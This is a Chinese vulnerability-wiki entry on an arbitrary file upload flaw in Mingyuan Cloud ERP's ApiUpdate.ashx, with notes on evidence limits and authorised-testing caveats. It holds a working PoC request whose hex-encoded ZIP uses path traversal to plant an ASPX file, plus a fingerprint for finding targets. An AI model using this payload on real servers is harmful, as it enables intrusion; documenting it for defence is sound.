


# 明源云接口管家 ApiUpdate ZIP路径写入

## 条目说明

- 对象与具体问题：明源云接口管家；ApiUpdate ZIP路径写入
- 版本、配置及部署条件：无版本
- 认证与权限前提：apiocode=a，鉴权未解
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 目录名是整篇标题，需归明源云；宏hexdec不是HTTP字节
- ZIP内容输出后自删，需透明说明，修复条件缺

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

明源云 ERP系统接口管家 ApiUpdate.ashx 文件存在任意文件上传漏洞，攻击者通过构造特殊的ZIP压缩包可以上传任意文件，控制服务器

### 漏洞影响

明源云 ERP系统接口管家

### 网络测绘

```
"接口管家站点正常！"
```

### 漏洞复现

登录页面


漏洞存在于某端口下的接口管家服务



验证POC

```http
POST /myunke/ApiUpdateTool/ApiUpdate.ashx?apiocode=a HTTP/1.1
Host: 
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3)AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{{hexdec(504B030414000000080063740E576AE37B2383000000940000001D0000002E2E2F2E2E2F2E2E2F666463636C6F75642F5F2F746573742E6173707825CC490AC2401404D0BDA7685A02C9A62F90288A22041C42E2B0FE4A11033DD983E0EDFDE2AEA8575453AC444723C49EEC98392CE4662E45B16C185AE35D48E24806D1D3836DF8C404A3DAD37F227A066723D42D4C09A53C23A66BD65656F56ED2505B68703F20BC11D4817C47E959F678651EAA4BD06A7D8F4EE7841F5455CDB7B32F504B0102140314000000080063740E576AE37B2383000000940000001D00000000000000000000008001000000002E2E2F2E2E2F2E2E2F666463636C6F75642F5F2F746573742E61737078504B050600000000010001004B000000BE0000000000)}}
```

> 请求长度说明：原资料 Content-Length 为 856；静态长度已移除，应由客户端根据最终请求体的字节数生成。



访问地址：

```
/fdccloud/_/test.aspx
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
